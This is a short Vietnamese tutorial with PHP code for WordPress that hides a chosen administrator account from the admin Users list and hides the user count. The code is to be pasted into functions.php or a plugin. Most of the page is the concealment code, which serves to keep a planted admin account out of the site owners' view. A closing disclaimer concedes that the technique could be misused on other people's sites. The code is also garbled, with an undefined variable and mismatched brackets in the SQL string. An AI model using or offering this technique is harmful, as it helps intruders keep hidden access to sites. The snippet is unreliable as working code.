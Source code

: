 # Hướng dẫn ẩn thành viên trong trang Admin của Wordpress

- Trước tiên, tạo user muốn ẩn ( Ví dụ user mình tạo là admin1, thì điền vào code dưới là admin ). Sau đó copy đoạn code dưới vào bất kỳ chỗ nào trong wordpress (function.php, *plugins,...).

 add_action('pre_user_query','yoursite_pre_user_query');
function yoursite_pre_user_query($user_search) {
global $current_user;
if ($username == 'admin1') {
}
else{
global $wpdb;
$user_search->query_where = str_replace('WHERE 1=1',
 "WHERE 1=1 AND {$wpdb->users).user_login != 'admin1' ",$user_search->query_where);
}
}

 function hide_useR_count(){ ?> <style> .wp-admin.users-php span.count {display:none;} </style> <?php } add_action('admin_head','hide_user_count');

- Đây là dòng code ẩn user trong admin wordpress, tôi không khuyến khích bạn làm trang wordpress của người khác. Tôi sẽ không chịu trách nhiệm nào việc bạn sử dụng mục đích không chính đáng.
